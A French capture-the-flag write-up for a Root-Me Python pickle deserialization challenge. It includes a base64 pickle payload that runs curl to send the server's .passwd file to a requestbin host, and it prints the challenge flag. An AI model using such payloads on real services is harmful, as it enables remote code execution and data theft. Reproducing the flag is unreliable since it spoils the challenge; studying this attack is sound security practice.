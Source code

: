 # Python - pickle

## Description : 
> Dans ce défi, un serveur HTTP est implémenté avec python.
> Comme le suggère la page du défi, la vulnérabilité affecte le module pickle de python, qui gère la sérialisation/désérialisation des objets python.
> 

## Exploit : 
> En se connectant au serveur avec `nc challenge02.root-me.org 60005` on peut interagir avec le serveur.
> L'interaction se fait à l'aide de verbes HTTP.
> 
> ![fuzz](fuzz1.PNG)
> 
> En suivant les messages d'erreur que le serveur envoie, il est possible de déterminer quels paramètres sont nécessaires pour injecter le payload.
> 
> ![fuzz](fuzz2.PNG)
> 
> Il faut donc fournir au header **Authenticate** le payload sous forme d'objet python encodé en **base64**.
> 
> Le payload en question, au moment de sa deserialization dans le serveur, executera une requete **POST** vers **requestbin** en incluant dans les paramètres le contenu du fichier **.passwd**.
> 
> ![payload](payload.PNG)
> 
> Le payload généré est : **Y3Bvc2l4CnN5c3RlbQpwMQooUydjdXJsIC1YIFBPU1QgLWQgInBhc3M9JChjYXQgL2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoNS8ucGFzc3dkKSIgaHR0cHM6Ly9yZXF1ZXN0YmluLmlvLzFuOW92OXExJwpwMgp0UnA
> zCi4=**
> 
> On peut donc l'utiliser pour exploiter le serveur.
> 
> ![exploit](exploit.PNG)
> 
> ![flag](flag.PNG)
> 
> Le flag trouvé est : **6kSGEI2bh8bgRfCW** 